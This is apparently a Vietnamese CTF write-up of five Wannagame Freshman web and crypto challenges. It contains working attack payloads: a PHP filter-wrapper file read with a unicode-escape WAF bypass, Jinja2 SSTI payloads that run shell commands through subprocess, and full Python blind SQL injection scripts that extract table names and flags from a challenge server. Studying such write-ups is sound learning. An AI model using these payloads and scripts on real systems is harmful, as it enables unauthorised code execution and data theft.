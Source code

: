 ```yaml
---
title: "Wannagame Freshman CTF writeup"
date: 2023-11-12 00:00:00 +0800
categories: [CTF Writeup]
tags: [SQL Injectiom,SSTI]
---
```


# WannaWinFreshman-Writeup
## Bài 1 Warmup PHP:
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/71156a59-19c3-4180-be30-2b3abeb10d1d)



- Tóm tắt đề thì đại khái là đề bảo chúng ta phải POST data lên dưới dạng json có key là **page** và sau đó chương trình sẽ server sẽ decode ra và đọc file trong server
- Sau khi phân tích và tìm kiếm trên mạng thì mình tìm được 1 bài viết[LINK](https://trustfoundry.net/2018/12/20/bypassing-wafs-with-json-unicode-escape-sequences/)
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/326ec395-87d2-4be9-a7c5-4e6071dc17f0)


- Cơ bản là json_decode nó sẽ decode luôn mã unicode thành chữ cái vì vậy mình chỉnh lại cái payload của mình từ 
`php://filter/convert.base64-encode/resource=/flag`
thành
`\u0070hp://filter/convert.base64-encode/resource=/flag`
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/92cf2e27-8845-4860-90de-d34a1cebbdfe)


- Decode base64 và ra flag
- Flag: **W1{w3lc0m3_w3b_w4rrj0rs}**
## Bài 2 Namename:
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/defe9e88-e3d5-414a-a13b-e3e72e7f9c19)


- Bài này cho 1 đường link và không cho thêm gì khác sau khi xem source của web này thì thấy có 1 đường dẫn là `/wannaw1n`
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/8f8ae6bf-3d67-4503-ba1a-60d567c8ecc1)


- Sau khi đi tới đường dẫn /wannaw1n mình nhận ra ngay đây là SSTI jinja2
- Payload : {% raw %}`{{().__class__.__base__.__subclasses__()[279]('ls',shell=1,stdout=-1).communicate()}}` {% endraw %}
- Và nó bị chặn ![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/252274f5-06d8-4347-845e-6e446525d1de)


- Sau vài thử nghiệm thì có vẽ nó chặn dấu `.` và `[]` nên mình chuyển qua `|attr `

- Payload mới: {% raw %}`{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(279)('ls',shell=1,stdout=-1)|attr('communicate')()}}`{% endraw %}
- Và nó đã hoạt động

![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/2aa34a0a-8783-4e3a-bfef-57e4e5f35538)


- Bây giờ sửa lại payload từ `ls` sang `cat flag.txt`
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/66dfde32-1efd-4d9f-9c6b-7003db035ef2)

- Và nó vẫn bị chặn cái gì đấy nên mình sử dụng cách này bypass filter (chổ này là chặn dấu `.` và chữ `f` thì phải)
- {% raw %}`{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(279)('cat+*',shell=1,stdout=-1)|attr('communicate')()}}`{% endraw %}
- Cách này sẽ đọc hết tất cả các file trong thư mục hiện tại và tìm được flag

![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/eb16cde7-852a-4c5c-bb9b-55413df94330)

- Flag: **W1{U_are_master_in_SSTI}**
## Bài 3 Solite:
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/6fd2d2cb-901f-46f3-bdeb-c215efb0ef9a)

- Bài này mình khá tiếc vì mình đọc không kỉ filter nên mình không làm được
- Tóm tắt đề thì bài này chỉ cho chúng ta cái page như thế này (blackbox)

![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/5c47c030-9790-44ae-a5a2-903a5904b768)

- Sau khi đọc code và được nghe 1 số gợi ý thì mình hiểu được đây là Blind SQL Injection
- Nhìn kĩ source thì có 1 lỗ hổng cho chúng ta khai thác là substr không bị filter
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/a4f8f195-8a8c-4a9f-9d70-1cbca22199ac)

- Đây là query của bài
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/14d13c79-1151-46d3-9288-13b8647e2de8)

- Sau một vài thử nghiệm thì mình tìm được cách để in ra tên của bảng
- `Payload: 1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),i,1) is 'a'--`
- Tóm tắt :
- Payload này sau khi gửi lên server thì server sẽ thực hiện 1 query như sau `SELECT * FROM API WHERE id LIKE '%1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--%'`
- `select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'` sẽ trả về tên của tất cả các bảng
- `substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1)` sẽ lấy 1 ký tự a bắt đầu từ vị trí i 
- `1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--` cái này sẽ so sánh ký tự mà substr vừa cắt ra nếu chính xác thì sẽ thực hiện lệnh đằng trước là `SELECT * FROM API WHERE id LIKE '%1'` và trả về cột id=1 nếu sai thì nó không thực hiện và chẳng trả về gì cả
- Đây là script mình tìm tên của bảng


```py
import string,requests
from urllib.parse import quote

all_characters = string.ascii_letters + string.digits + "!#$%&()+,-/:<=>?@[]^_{}"
url = "http://45.122.249.68:20020/search?name[]="
payload="1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--"
table_name = ""
haha = 0
for i in range(1,10000):
    for ps in all_characters:
        payload ="1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%%'),%d,1) is '%c'--" %(i,ps)
        payload =  quote(payload)
        urlx = url + payload
        #print(urlx)
        r=requests.get(url=urlx)
        if "id" in r.text:
            table_name += ps
            print("Table names: ",table_name)
            haha +=1
    if haha < i:
        break
print("Success all the names of the tables are:",table_name)
```
- Và tìm ra được tên của các bảng là
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/de22bd13-a94c-4b06-b556-bc7125006578)


`Tables: API,flag_c1abd148_acae_40be_a953_eae333f90da0`
- Bây giờ dựa vào cái trên lấy ra flag từ bảng `flag_c1abd148_acae_40be_a953_eae333f90da0` thôi
- Script của mình

```py
import string,requests
from urllib.parse import quote

all_characters = string.ascii_letters + string.digits + "!#$%&()+,-/:<=>?@[]^_{}"
url = "http://45.122.249.68:20020/search?name[]="

table_name = "flag_c1abd148_acae_40be_a953_eae333f90da0"
#payload = "1' and substr((select flag from flag_c1abd148_acae_40be_a953_eae333f90da0),1,1) is 'a'--"
haha = 0
flag =""
for i in range(1,10000):
    for ps in all_characters:
        payload ="1' and substr((select flag from %s),%d,1) is '%c'--" %(table_name,i,ps)
        payload =  quote(payload)
        urlx = url + payload
        #print(urlx)
        r=requests.get(url=urlx)
        if "id" in r.text:
            flag += ps
            print("Flag is: ",flag)
            haha +=1
    if haha < i:
        break
print("Here is your flag:",flag)
```

- Flag: **W1{I_th1nk_u_r_so_lite^_^}**
## Bài 4 Differences:
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/741e394e-645f-4cb2-89b8-b9b3af8480c8)

- Flag ngay ở trong file
- Flag: **W1{SaKur4_s0_b34uTiFuL_RI9ht?????}**
## Bài 5 Free Flag:
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/5a6a78c9-2a29-4b8f-8bad-06ac8edf244d)


- Đọc file pcapng ta tìm được source và key


```py
import base64

BANNER = """ ___       __   ________  ________   ________   ________  ___       __     _____  ________      
|\  \     |\  \|\   __  \|\   ___  \|\   ___  \|\   __  \|\  \     |\  \  / __  \|\   ___  \    
\ \  \    \ \  \ \  \|\  \ \  \\\ \  \ \  \\\ \  \ \  \|\  \ \  \    \ \  \|\/_|\  \ \  \\\ \  \   
 \ \  \  __\ \  \ \   __  \ \  \\\ \  \ \  \\\ \  \ \   __  \ \  \  __\ \  \|/ \ \  \ \  \\\ \  \  
  \ \  \|\__\_\  \ \  \ \  \ \  \\\ \  \ \  \\\ \  \ \  \ \  \ \  \|\__\_\  \   \ \  \ \  \\\ \  \ 
   \ \____________\ \__\ \__\ \__\\\ \__\ \__\\\ \__\ \__\ \__\ \____________\   \ \__\ \__\\\ \__\\
    \|____________|\|__|\|__|\|__| \|__|\|__| \|__|\|__|\|__|\|____________|    \|__|\|__| \|__|
"""

KEY = bytes.fromhex('deadbeef')

def encryptSecret(secret):
    lst_byte = []
    for i in range(len(secret)):
        enc_byte = ord(secret[i]) ^ KEY[i % len(KEY)]
        lst_byte.append(enc_byte.to_bytes(1, 'big'))
    
    return base64.b64encode(b''.join([_ for _ in lst_byte])).decode()

if __name__=='__main__':
    print(BANNER)
    secret = input("> Please give me your secret: ")
    print("\n> Here is your encrypted secret:", encryptSecret(secret)
```

![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/b9af05e2-79f2-40e9-ab06-2bbbacface9e)

- Decrypt lại ta sẽ có flag


```py
import base64

KEY = bytes.fromhex('deadbeef')

def decryptSecret(encrypted_secret):
    encrypted_bytes = base64.b64decode(encrypted_secret.encode())
    decrypted_bytes = [encrypted_bytes[i] ^ KEY[i % len(KEY)] for i in range(len(encrypted_bytes))]
    decrypted_text = ''.join([chr(byte) for byte in decrypted_bytes])
    return decrypted_text

secret = "iZzFsKme0oOdndOqgdnxsKmZ0KG/2o+hgdA="

print(decryptSecret(secret))
```

- Flag: **W1{_w3llC0mE_tO_w4nNaw1N_}**
- ~~**Mấy bài còn lại mình chưa biết làm do dark quá**~~


